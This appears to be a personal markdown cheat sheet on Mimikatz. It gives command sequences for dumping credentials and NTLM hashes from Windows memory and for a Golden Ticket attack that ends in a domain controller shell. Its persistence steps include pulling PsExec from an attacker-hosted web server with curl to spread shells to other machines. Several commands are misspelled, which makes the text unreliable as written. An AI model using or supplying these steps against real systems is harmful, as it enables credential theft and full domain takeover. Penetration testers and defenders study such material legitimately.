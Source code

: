 # Mimikatz

Tool used to view and streal credentials, generate Kerberos tickets, and leverage attacks.

Dumps credentials stored in memory

pirvilege::debug
   
   - We want to see "20 OK"
   
   - This is to check that we can bypass memory protection

sekurlsa::logonpasswords

  - Can get users NTLM hash, and more

  - Notes:

        wdigest: Old way Windows stored passwords in memory from 7 and prior. Passwords were stored in clear text here. 8+ fixed this to be hashed by turing off the feature. Mimikatz can turn it back on. Once back on a new logon session will be need to occur.

lsadump::sam /patch

lsadump::lsa /patch


# Golden Ticket Attack

If you obtain the hash for the account that creates Kerberos tickets, then we can generate KTGT.
If this is achieved we have complete access to the domain and every machine.

**Exploit**

    lsadump::lda /inject /name:<kerberos ticket granting account>
    
     You want to grab the SID of the domian and the NTLM hash of the account.
     
    kerberose::golden /User:<account name, existing or not> /domain:<domian> /sid:<domain SID> /<kerberos TGT account name>:<NTLM hash> /id:500 /ptt
    
      /id   #account RID
      
      /ptt  #Pass the hash
      
      
     If successful run:
     
     misc:cmd
     
   You now have an admin shell on the domain controller. Here are a few followups for persistence:
   
   - Interact with machines
   
         <command> \\<ip>\c$
         
   - Upload [psexec.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/psexechttps://docs.microsoft.com/en-us/sysinternals/downloads/psexec
   ) to get full shells on other domain systems.
   
        Python web server on attacker under /user/share/windows-binaries. 
        
        Then on windows:
             
         curl http://<ip>:8000/PsExec.exe -O psexec.exe    
   
         psexec.exe \\<machine name or IP> cmd.exe  #run in golden ticket shell
         
         Note that this can take a while
   
   - Create a domain admin account
   
   - Create silver ticket
      
